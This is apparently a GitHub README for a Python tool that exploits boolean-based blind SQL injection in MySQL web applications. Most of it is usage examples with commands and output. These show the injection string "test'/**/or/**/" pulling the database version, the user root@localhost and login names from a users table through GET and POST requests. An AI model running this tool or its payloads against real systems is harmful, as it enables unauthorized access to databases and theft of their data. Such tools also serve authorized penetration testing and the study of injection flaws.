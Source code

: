 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
#Injection into GET "http://localhost/login?username=admin&password=admin"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

#Injection into POST "http://localhost/login" with x-www-form-urlencoded body "username=test&password=test"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```

## TODO
- Support different content-types for POST requests;
